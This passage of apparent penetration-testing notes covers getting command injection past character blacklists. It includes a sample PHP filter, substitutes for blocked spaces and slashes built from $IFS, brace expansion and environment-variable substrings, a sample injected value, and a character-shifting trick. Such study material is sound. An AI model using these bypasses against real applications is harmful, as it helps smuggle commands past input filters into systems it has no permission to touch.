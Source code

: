 &#x20;If the error message displayed a different page, with information like our IP and our request, this may indicate that it was denied by a WAF. A php code for blacklisting characters may look like this:

```php
$blacklist = ['&', '|', ';', ...SNIP...];
foreach ($blacklist as $character) {
    if (strpos($_POST['ip'], $character) !== false) {
        echo "Invalid input";
    }
}
```

Try all characters check if everything is blacklisted

#### Bypass Blacklisted Operators

If **space** is blacklisted:

* Use %09 (Tab)
* Use $IFS
* Brace expension i.e `{ls,-la}`

**Linux**

**To list all environment variables use `printenv`**

Example: `127.0.0.1${LS_COLORS:10:1}${IFS}`

If `/` or `\` is blacklisted:

* We can use environment variables:
  * `echo ${PATH}` to check path
  * `echo ${PATH:0:1}` to select `/`
  * NOTE: DONT USE ECHO IN COMMAND If `;` blacklisted:
* Try something like `echo ${LS_COLORS:10:1}`

**Windows**

If we need `\` **CMD**

* Use `echo %HOMEPATH:~6,-11%` (modify the start and end)

**Powershell**

* `$env:HOMEPATH[0]`
* `$env:PROGRAMFILES[10]` We can also use **Get-ChildItem Env**: PowerShell command to print all environment variables and then pick one of them to produce a character we need

**Character Shifting**

Find ascii of the previous character of what is actually needed then

```
man ascii     # \ is on 92, before it is [ on 91
echo $(tr '!-}' '"-~'<<<[)
```

#### Bypass Blacklisted Commands
